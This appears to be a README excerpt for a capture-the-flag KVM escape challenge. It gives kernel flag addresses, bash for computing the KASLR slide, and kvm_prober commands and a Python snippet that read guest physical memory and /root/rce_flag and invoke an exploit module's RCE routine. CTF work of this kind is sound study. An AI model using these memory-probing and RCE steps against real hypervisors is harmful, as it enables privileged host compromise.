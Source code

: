 ### Successful RCE
```
[✓✓✓] RCE FLAG CAPTURED: flag{...}
```

## 🔑 Key Memory Addresses (with KASLR)

### Without KASLR (base = 0xffffffff81000000)
- Write Flag: `0xffffffff826279a8` (phys: `0x64279a8`)
- Read Flag: `0xffffffff82b5ee10` (phys: `0x695ee10`)

### With KASLR (add slide to virtual addresses)
```bash
# Get slide
SLIDE=$(kvm_prober getkaslr | grep "slide:" | awk '{print $4}')

# Calculate adjusted addresses
WRITE_VIRT=$((0xffffffff826279a8 + $SLIDE))
READ_VIRT=$((0xffffffff82b5ee10 + $SLIDE))
```

## 🏆 Scoring Quick Check

After running exploits, verify captures:

```bash
# Check write flag (should show 0xdeadbeef41424344)
kvm_prober readgpa 64279a8 8

# Check read flag (look for flag pattern)
kvm_prober readgpa 695ee10 64

# Check RCE flag
kvm_prober readfile /root/rce_flag 0 256

# Or use Python to check all
python3 -c "
from hybrid_kvm_exploit import *
e = HybridExploit()
if e.gpa_read(0x64279a8, 8) == b'\x44\x43\x42\x41\xef\xbe\xad\xde':
    print('[✓] Write flag verified!')
print('[+] Read flag:', e.gpa_read(0x695ee10, 64))
e.exploit_rce_file()
"
```

## 📝 Common Issues & Fixes

### Issue: "Device not found"
```bash
# Check module loaded
lsmod | grep kvm_probe

# Reload if needed
sudo rmmod kvm_probe_drv
sudo insmod kvm_probe_drv.ko

# Check device
ls -la /dev/kvm_probe*
```
